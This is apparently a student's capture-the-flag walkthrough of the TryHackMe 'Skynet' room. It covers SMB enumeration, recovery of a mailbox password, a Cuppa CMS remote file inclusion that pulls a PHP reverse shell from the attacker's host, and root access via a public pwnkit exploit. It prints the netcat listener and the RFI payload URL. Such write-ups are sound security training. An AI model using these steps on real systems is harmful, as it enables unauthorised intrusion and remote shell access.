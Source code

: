 # Skynet
1. What is Miles password for his emails?
2. What is the hidden directory?
3. What is the vulnerability called when you can include a remote file for malicious purposes? (remote file inclusion)
4. What is the user flag?
5. What is the root flag?

- Enum for open ports first

![Pasted image 20251004193620.png](thm_pics/Pasted%20image%2020251004193620.png)

- ports 22, 80, 110, 139, 143, 445 are open, and its a linux server
- Now, lets access the website and use gobuster to enum for directories

![Pasted image 20251004194120.png](thm_pics/Pasted%20image%2020251004194120.png)

- What is squirrelmail?

![Pasted image 20251004194146.png](thm_pics/Pasted%20image%2020251004194146.png)

- theres a login panel here, first question asked "What is Miles password for his emails?" So we can try to find usernames in samba first since the service opens

![Pasted image 20251004200210.png](thm_pics/Pasted%20image%2020251004200210.png)

- using enum4linux, i found a user called **milesdyson**

![Pasted image 20251004205751.png](thm_pics/Pasted%20image%2020251004205751.png)

- and we can also **map shares in anonymous share**, lets try accessing it
- Command : `smbclient //10.10.40.60/anonymous -N`

![Pasted image 20251004210015.png](thm_pics/Pasted%20image%2020251004210015.png)

- to read a file, we need to download it to our local machine first using the `get` command: `get attention.txt`

![Pasted image 20251004210526.png](thm_pics/Pasted%20image%2020251004210526.png)

- Interesting, maybe we can also **list files in logs directory**

![Pasted image 20251004210643.png](thm_pics/Pasted%20image%2020251004210643.png)

- log2 and log3 have size 0, so we download log1.txt

![Pasted image 20251004210824.png](thm_pics/Pasted%20image%2020251004210824.png)

- Maybe one of these in the password for milesdyson's smb account? lets try

![Pasted image 20251004211400.png](thm_pics/Pasted%20image%2020251004211400.png)

- Its somehow not correct
- or we can just try brute forcing squirrelmail since the question asks for Mile's password for his squirrelmail account
- **cyborg007haloterminator** is the right one since its at the top of the log file
- Now next question asks "what is the hidden directory"

![Pasted image 20251004211949.png](thm_pics/Pasted%20image%2020251004211949.png)

- I saw that they changed the smb password for milesdyson (thats why we couldnt log in earlier!), lets try logging in by using smbclient and access miledyson's shares
- Command : `smbclient //10.10.40.60/milesdyson -U milesdyson`

![Pasted image 20251004212212.png](thm_pics/Pasted%20image%2020251004212212.png)

- traumaaa, i just learnt about neural networks this week
- So many pdfs tho, but theres "notes" directory

![Pasted image 20251004212922.png](thm_pics/Pasted%20image%2020251004212922.png)

- omg can i download all of these for my studies hahaha (kidding)
- lets see how "improtant.txt" looks like

![Pasted image 20251004213038.png](thm_pics/Pasted%20image%2020251004213038.png)

- beta CMS /45kra24zxs28v3yd?? whats that?
- and that is the hidden directory! so lets try accessing that directory on his website

![Pasted image 20251004213212.png](thm_pics/Pasted%20image%2020251004213212.png)

- hi miles dyson, nice to meet you
- now, lets try gobuster on his directory cuz why not?

![Pasted image 20251004214837.png](thm_pics/Pasted%20image%2020251004214837.png)


![Pasted image 20251004214823.png](thm_pics/Pasted%20image%2020251004214823.png)

- found Cuppa CMS
- well i tried username : milesdyson and password : cyborg007haloterminator but its wrong
- also, i tried password : )s{A&2Z=F^n_E.B` in ssh login also but its wrong
- I will try to find exploits related to cuppa cms

![Pasted image 20251004220929.png](thm_pics/Pasted%20image%2020251004220929.png)

![Pasted image 20251004220939.png](thm_pics/Pasted%20image%2020251004220939.png)

- yeah its related to remote file inclusion, so i think this is the right one
- This lets the attacker do LFI and RFI

![Pasted image 20251004221111.png](thm_pics/Pasted%20image%2020251004221111.png)

![Pasted image 20251004221132.png](thm_pics/Pasted%20image%2020251004221132.png)

- so i have to access the alertConfigField thing, now i will try using gobuster to find directories inside administrator panel

![Pasted image 20251004221525.png](thm_pics/Pasted%20image%2020251004221525.png)

- yeah theres **/alerts**, i will keep that in mind
- I will also prepare the **php reverse shell** file
- I think i will try RFI and host a **simple http server** in the directory that has the php reverse shell
- First, i will set up a simple listener using : `nc -lvnp 1234`
- Exploit RFI : `http://10.10.40.60/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.125.244/php-reverse-shell.php?`

![Pasted image 20251004223141.png](thm_pics/Pasted%20image%2020251004223141.png)

- omg it works! this is my first time doing RFI im so amazed 
- now, lets try to find the user flag

![Pasted image 20251004223440.png](thm_pics/Pasted%20image%2020251004223440.png)

- Found user.txt!
- Now, lets try privilege escalation

![Pasted image 20251004223550.png](thm_pics/Pasted%20image%2020251004223550.png)

- lets try psexec again
- So i got the exploit from https://github.com/arthepsy/CVE-2021-4034 github and used wget to get the file from our attacking machine 
- I downloaded the file in /tmp directory of the target
- Then, i compiled the c file there (followed the steps in that github repo)
- Then, i executed the object file

![Pasted image 20251004225513.png](thm_pics/Pasted%20image%2020251004225513.png)

- now im root, lets find the root.txt file

![Pasted image 20251004225834.png](thm_pics/Pasted%20image%2020251004225834.png)

- got the flag!